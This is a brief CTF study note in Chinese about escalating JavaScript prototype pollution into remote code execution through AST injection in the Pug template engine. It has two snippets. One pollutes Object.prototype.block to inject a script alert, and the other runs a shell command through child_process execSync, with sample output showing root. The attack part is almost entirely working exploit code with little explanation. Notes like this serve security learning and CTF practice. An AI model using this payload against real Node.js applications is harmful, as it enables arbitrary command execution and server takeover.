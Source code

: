 tags:: [[CTF/JS/原型链污染]]

- # 原型链污染到RCE
	- [参考](https://po6ix.github.io/AST-Injection/)
	- 检测
		- ```js
		  const pug = require('pug');
		  
		  Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};
		  
		  const source = `h1= msg`;
		  
		  var fn = pug.compile(source, {});
		  var html = fn({msg: 'It works'});
		  
		  console.log(html); // <h1>It works<script>alert(origin)</script></h1>
		  
		  
		  ```
	- 利用
		- ```js
		  const pug = require('pug');
		  
		  Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};
		  
		  const source = `h1= msg`;
		  
		  var fn = pug.compile(source);
		  var html = fn({msg: 'It works'});
		  
		  console.log(html); // "uid=0(root) gid=0(root) groups=0(root)\n\n<h1>It worksndefine</h1>"
		  ```